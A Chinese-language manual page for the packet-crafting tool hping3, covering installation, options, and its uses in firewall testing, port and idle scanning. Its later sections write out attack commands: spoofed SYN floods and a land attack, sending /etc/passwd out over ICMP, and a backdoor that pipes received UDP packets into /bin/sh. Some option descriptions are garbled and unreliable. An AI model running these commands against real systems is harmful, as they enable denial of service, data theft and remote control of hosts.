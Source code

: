 hping3
===

测试网络及主机的安全

## 补充说明

**hping** 是用于生成和解析TCPIP协议数据包的开源工具。创作者是Salvatore Sanfilippo。目前最新版是hping3，支持使用tcl脚本自动化地调用其API。hping是安全审计、防火墙测试等工作的标配工具。hping优势在于能够定制数据包的各个部分，因此用户可以灵活对目标机进行细致地探测。

###  安装

```shell
yum install libpcap-devel tc-devel
ln -s /usr/include/pcap-bpf.h /usr/include/net/bpf.h
wget http://www.hping.org/hping3-20051105.tar.gz
tar zxvf hping3-20051105.tar.gz
cd hping3-20051105
./configure
make
make install
```

###  选项

```shell
-H --help 显示帮助。
-v -VERSION 版本信息。
-c --count count 发送数据包的次数 关于countreached_timeout 可以在hping2.h里编辑。
-i --interval 包发送间隔时间（单位是毫秒）缺省时间是1秒,此功能在增加传输率上很重要,在idle/spoofing扫描时此功能也会被用到,你可以参考hping-howto获得更多信息-fast 每秒发10个数据包。
-n -nmeric 数字输出，象征性输出主机地址。
-q -quiet 退出。
-I --interface interface name 无非就是eth0之类的参数。
-v --verbose 显示很多信息，TCP回应一般如：len=46 ip=192.168.1.1 flags=RADF seq=0 ttl=255 id=0 win=0 rtt=0.4ms tos=0 iplen=40 seq=0 ack=1380893504 sum=2010 urp=0
-D --debug 进入debug模式当你遇到麻烦时，比如用HPING遇到一些不合你习惯的时候，你可以用此模式修改HPING，（INTERFACE DETECTION,DATA LINK LAYER ACCESS,INTERFACE SETTINGS,.......）
-z --bind 快捷键的使用。
-Z --unbind 消除快捷键。
-O --rawip RAWIP模式，在此模式下HPING会发送带数据的IP头。
-1 --icmp ICMP模式，此模式下HPING会发送IGMP应答报，你可以用--ICMPTYPE --ICMPCODE选项发送其他类型/模式的ICMP报文。
-2 --udp UDP 模式，缺省下，HPING会发送UDP报文到主机的0端口，你可以用--baseport --destport --keep选项指定其模式。
-9 --listen signatuer hping的listen模式，用此模式，HPING会接收指定的数据。
-a --spoof hostname 伪造IP攻击，防火墙就不会记录你的真实IP了，当然回应的包你也接收不到了。
-t --ttl time to live 可以指定发出包的TTL值。
-H --ipproto 在RAW IP模式里选择IP协议。
-w --WINID UNIX ,WINDIWS的id回应不同的，这选项可以让你的ID回应和WINDOWS一样。
-r --rel 更改ID的，可以让ID曾递减输出，详见HPING-HOWTO。
-F --FRAG 更改包的FRAG，这可以测试对方对于包碎片的处理能力，缺省的“virtual mtu”是16字节。
-x --morefrag 此功能可以发送碎片使主机忙于恢复碎片而造成主机的拒绝服务。
-y -dontfrag 发送不可恢复的IP碎片，这可以让你了解更多的MTU PATH DISCOVERY。
-G --fragoff fragment offset value set the fragment offset
-m --mtu mtu value 用此项后ID数值变得很大，50000没指定此项时3000-20000左右。
-G --rroute 记录路由，可以看到详悉的数据等等，最多可以经过9个路由，即使主机屏蔽了ICMP报文。
-C --ICMPTYPE type 指定ICMP类型，缺省是ICMP echo REQUEST。
-K --ICMPCODE CODE 指定ICMP代号，缺省0。
--icmp-ipver 把IP版本也插入IP头。
--icmp-iphlen 设置IP头的长度，缺省为5（32字节）。
--icmp-iplen 设置IP包长度。
--icmp-ipid 设置ICMP报文IP头的ID，缺省是RANDOM。
--icmp-ipproto 设置协议的，缺省是TCP。
-icmp-cksum 设置校验和。
-icmp-ts alias for --icmptype 13 (to send ICMP timestamp requests)
--icmp-addr Alias for --icmptype 17 (to send ICMP address mask requests)
-s --baseport source port hping 用源端口猜测回应的包，它从一个基本端口计数，每收一个包，端口也加1，这规则你可以自己定义。
-p --deskport [+][+]desk port 设置目标端口，缺省为0，一个加号设置为:每发送一个请求包到达后，端口加1，两个加号为：每发一个包，端口数加1。
--keep 上面说过了。
-w --win 发的大小和windows一样大，64BYTE。
-O --tcpoff Set fake tcp data offset. Normal data offset is tcphdrlen / 4.
-m --tcpseq 设置TCP序列数。
-l --tcpck 设置TCP ack。
-Q --seqnum 搜集序列号的，这对于你分析TCP序列号有很大作用。
```

###  Hping3功能

Hping3主要有以下典型功能应用：

### #  防火墙测试

使用Hping3指定各种数据包字段，依次对防火墙进行详细测试。请参考：http://0daysecurity.com/articles/hping3_examples.html

测试防火墙对ICMP包的反应、是否支持traceroute、是否开放某个端口、对防火墙进行拒绝服务攻击（DoS attack）。例如，以LandAttack方式测试目标防火墙（Land Attack是将发送源地址设置为与目标地址相同，诱使目标机与自己不停地建立连接）。

```shell
hping3 -S  -c 1000000 -a 10.10.10.10 -p 21 10.10.10.10
```

### # 端口扫描

Hping3也可以对目标端口进行扫描。Hping3支持指定TCP各个标志位、长度等信息。以下示例可用于探测目标机的80端口是否开放：

```shell
hping3 -I eth0  -S 192.168.10.1 -p 80
```

其中`-I eth0`指定使用eth0端口，`-S`指定TCP包的标志位SYN，`-p 80`指定探测的目的端口。

hping3支持非常丰富的端口探测方式，nmap拥有的扫描方式hping3几乎都支持（除开connect方式，因为Hping3仅发送与接收包，不会维护连接，所以不支持connect方式探测）。而且Hping3能够对发送的探测进行更加精细的控制，方便用户微调探测结果。当然，Hping3的端口扫描性能及综合处理能力，无法与Nmap相比。一般使用它仅对少量主机的少量端口进行扫描。

### # Idle扫描

Idle扫描（Idle Scanning）是一种匿名扫描远程主机的方式，该方式也是有Hping3的作者Salvatore Sanfilippo发明的，目前Idle扫描在Nmap中也有实现。

该扫描原理是：寻找一台idle主机（该主机没有任何的网络流量，并且IPID是逐个增长的），攻击端主机先向idle主机发送探测包，从回复包中获取其IPID。冒充idle主机的IP地址向远程主机的端口发送SYN包（此处假设为SYN包），此时如果远程主机的目的端口开放，那么会回复SYN/ACK，此时idle主机收到SYN/ACK后回复RST包。然后攻击端主机再向idle主机发送探测包，获取其IPID。那么对比两次的IPID值，我们就可以判断远程主机是否回复了数据包，从而间接地推测其端口状态。

### # 拒绝服务攻击

使用Hping3可以很方便构建拒绝服务攻击。比如对目标机发起大量SYN连接，伪造源地址为192.168.10.99，并使用1000微秒的间隔发送各个SYN包。

```shell
hping3 -I eth0 -a192.168.10.99 -S 192.168.10.33 -p 80 -i u1000
```

其他攻击如smurf、teardrop、land attack等也很容易构建出来。

### # 文件传输

Hping3支持通过TCP/UDP/ICMP等包来进行文件传输。相当于借助TCP/UDP/ICMP包建立隐秘隧道通讯。实现方式是开启监听端口，对检测到的签名（签名为用户指定的字符串）的内容进行相应的解析。在接收端开启服务：

```shell
hping3 192.168.1.159--listen signature --safe  --icmp
```

监听ICMP包中的签名，根据签名解析出文件内容。

在发送端使用签名打包的ICMP包发送文件：

```shell
hping3 192.168.1.108--icmp ?d 100 --sign signature --file /etc/passwd
```

将`/etc/passwd`密码文件通过ICMP包传给192.168.10.44主机。发送包大小为100字节（-d 100），发送签名为signature(-sign signature)。

### # 木马功能

如果Hping3能够在远程主机上启动，那么可以作为木马程序启动监听端口，并在建立连接后打开shell通信。与netcat的后门功能类似。

示例：本地打开53号UDP端口（DNS解析服务）监听来自192.168.10.66主机的包含签名为signature的数据包，并将收到的数据调用/bin/sh执行。

在木马启动端：

```shell
hping3 192.168.10.66--listen signature --safe --udp -p 53 | /bin/sh
```

在远程控制端：

```shell
echo ls >test.cmd
hping3 192.168.10.44 -p53 -d 100 --udp --sign siganature --file ./test.cmd
```

将包含ls命令的文件加上签名signature发送到192.168.10.44主机的53号UDP端口，包数据长度为100字节。

当然这里只是简单的演示程序，真实的场景，控制端可以利益shell执行很多的高级复杂的操作。



